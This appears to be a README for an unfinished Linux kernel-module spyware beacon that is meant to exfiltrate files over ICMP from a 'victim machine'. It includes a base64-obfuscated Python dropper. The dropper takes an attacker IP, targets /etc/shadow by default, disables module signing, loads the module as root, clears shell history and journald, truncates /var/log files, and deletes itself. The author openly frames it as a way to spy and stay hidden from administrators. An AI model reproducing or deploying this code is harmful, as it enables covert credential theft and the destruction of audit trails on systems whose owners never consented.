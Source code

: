 # Kernel Delirium (Not working yet, still requires development)

## What is it about

My idea was to create a kernel module for linux machine which is basically a beacon to spy on machine using ICMP protocoll which is usually less suspicious then tcp/udp f.ex, so even some firewalls don't mind. Additionally inexperienced System admin is not gonna try to look it up in kernel modules. Maybe in future to hide it better, I'll include the module in the system one

## How to use?

To use this software you should install a desktop app and run deploy_and_clean.py (I recommend to assemble file with base64)on the victim machine

### victim machine

```bash
base64 -d aW1wb3J0IG9zCmltcG9ydCBhcmdwYXJzZQoKI21vZHVsZV9uYW1lIGlzIG5lZWRlZCB0byBoaWRl
IHRoZSBleHBsb2l0IHVuZGVyIHRoZSBuYW1lIHdoaWNoIGlzIG5vdCBzdXNwaWNpb3VzCmRlZiBl
eHBsb2l0X2dlbihleHRlcm5hbF9pcCwgZXh0ZXJuYWxfcG9ydCwgbW9kdWxlX25hbWUgPSAiZXRo
ZXJuZXQuYyIsIGZpbGVzID0gW10sIHVwZGF0ZV9wZXJpb2Q9MSk6CiAgICBNT0RVTEVfQ09ERT0i
IiIiIiIKICAgIHByaW50KGV4dGVybmFsX2lwLCBleHRlcm5hbF9wb3J0LCBtb2R1bGVfbmFtZSwg
dXBkYXRlX3BlcmlvZCkKICAgIHByaW50KGZpbGVzWzBdKQogICAgcHJpbnQoZmlsZXNbMV0pCgpk
ZWYgbG9hZF9tb2R1bGUobW9kdWxlTmFtZSk6CiAgICBNQUtFRklMRT1mIiIiQ09ORklHX01PRFVM
RV9TSUc9bgpvYmotbSArPSB7bW9kdWxlTmFtZX0KCmFsbDoKCXN1ZG8gYXB0LWdldCBpbnN0YWxs
IC0tcmVpbnN0YWxsIC15IGxpbnV4LWhlYWRlcnMtJCh1bmFtZSAtcikKCW1ha2UgLUMgL2xpYi9t
b2R1bGVzLyQoc2hlbGwgdW5hbWUgLXIpL2J1aWxkIE09JChQV0QpIG1vZHVsZXMKCXN1ZG8gaW5z
bW9kIGR2dC1kcml2ZXIua28KCmNsZWFuOgoJbWFrZSAtQyAvbGliL21vZHVsZXMvJChzaGVsbCB1
bmFtZSAtcikvYnVpbGQgTT0kKFBXRCkgY2xlYW4KCXJtIC1yZiAqLmMgKi5vICoua28gKi5tb2Qg
Ki5tb2QuYyIiIgoKICAgIHdpdGggb3BlbigiTWFrZWZpbGVfdHN0IiwgInciKSBhcyBmOgogICAg
ICAgIGYud3JpdGUoTUFLRUZJTEUpCiAgICAjb3Muc3lzdGVtKCIgbWFrZSIpCgoKZGVmIGNsZWFu
dXAoKToKICAgIG9zLnN5c3RlbSgiIG1ha2UgY2xlYW4iKQogICAgb3Muc3lzdGVtKCIgam91cm5h
bGN0bCAtLXZhY3V1bS10aW1lPTEwZCIpCiAgICBvcy5zeXN0ZW0oIiBoaXN0b3J5IC1jIikKICAg
IGZvciBmaWxlIGluIG9zLmxpc3RkaXIoIi92YXIvbG9nIik6CiAgICAgICAgd2l0aCBvcGVuOgog
ICAgICAgICAgICBmaWxlLnRydW5jYXRlKCkKICAgIG9zLnJlbW92ZShfX2ZpbGVfXykKCmRlZiBt
YWluKCk6CiAgICBwYXJzZXIgPSBhcmdwYXJzZS5Bcmd1bWVudFBhcnNlcihkZXNjcmlwdGlvbiA9
ICJUaGlzIHNjcmlwdCBzaG91bGQgYmUgcmFuIGFzIHJvb3Qgb24gZXhwb2l0ZWQgbWFjaGluZSB0
byBjcmVhdGUgYW5kIGxvYWQgYSBzdWl0YWJsZSBmb3IgeW91ciB0YXNrcyBjIGtlcm5lbCBtb2R1
bGUgdG8gc3B5IG9uIHNwZWNpZmljIGZpbGVzIGFuZCBzdGF5IGhpZGRlbiIpCiAgICBwYXJzZXIu
YWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX2lwIiwgdHlwZSA9IHN0ciwgaGVscCA9ICJQcm92aWRl
IGFuIGV4dGVybmFsIG1hY2hpbmUgSVAgQUREUkVTUyB0aGF0IHdpbGwgYmUgdXNlZCIpCiAgICBw
YXJzZXIuYWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX3BvcnQiLCB0eXBlID0gc3RyLCBoZWxwID0g
IlByb3ZpZGUgYW4gZXh0ZXJuYWwgbWFjaGluZSBQT1JUIHRoYXQgd2lsbCBiZSB1c2VkIiwgZGVm
YXVsdD0iMjIiKQogICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1tb2R1bGVfbmFtZSIsIHR5cGUg
PSBzdHIsIGhlbHAgPSAiTmFtZSBvZiB0aGUgbW9kdWxlIGYuZXggZXRoZXJuZXRfbW9kdWxlLCBp
dCdzIGJldHRlciBub3QgdG8gaGF2ZSB2aXJ1cyBvciBleHBvaXQgbmFtZSBvYnZpb3VzbHkiKQog
ICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1maWxlcyIsIHR5cGUgPSBzdHIsIG5hcmdzPSIrIiwg
aGVscD0iSGVyZSBhIGxpc3Qgb2YgZmlsZXMgdG8gYmUgc2VudCBzaG91bGQgYmUgcHJvdmlkZWQg
Zi5leCAvZXRjL2hvc3RzIC9ldGMvc2hhZG93cyIsIGRlZmF1bHQ9Ii9ldGMvc2hhZG93cyIpCiAg
ICBwYXJzZXIuYWRkX2FyZ3VtZW50KCItLXVwZGF0ZV9wZXJpb2QiLCB0eXBlID0gc3RyLCBoZWxw
ID0gIlRoZSBpbnRlcnZhbCBvZiB0aW1lIGluIHdoaWNoIGluZm9ybWF0aW9uIHNob3VsZCBiZSBn
YXRoZXJlZCBhZ2FpbiBhbmQgc2VuZCAoaW4gaG91cnMpLiBZb3Ugc2hvdWxkIGtub3cgdGhhdCB0
byBhdm9pZCBzdXNwaWNpb25zLCB0aW1lIHBlcmlvZCBtYXkgZGlmZmVyIHVwIHRvIDExIG1pbiIs
IGRlZmF1bHQ9IjEiKQogICAgYXJncyA9IHBhcnNlci5wYXJzZV9hcmdzKCkKICAgIGV4cGxvaXRf
Z2VuKGFyZ3MuZXh0ZXJuYWxfaXAsIGFyZ3MuZXh0ZXJuYWxfcG9ydCwgYXJncy5tb2R1bGVfbmFt
ZSwgYXJncy5maWxlcywgYXJncy51cGRhdGVfcGVyaW9kKQogICAgbG9hZF9tb2R1bGUoYXJncy5t
b2R1bGVfbmFtZSkKICAgIGNsZWFudXAoKQogICAgcmV0dXJuIDA7CgppZiBfX25hbWVfXyA9PSAi
X19tYWluX18iOgogICAgbWFpbigpCg== > deploy_and_clean.py`
```

```python
python3 deploy_and_clean.py`
```
### your machine
```bash
apt-get install kernel-delirium (Not gonna work yet)
```
:syringe:
```bash
kernel-delirium
```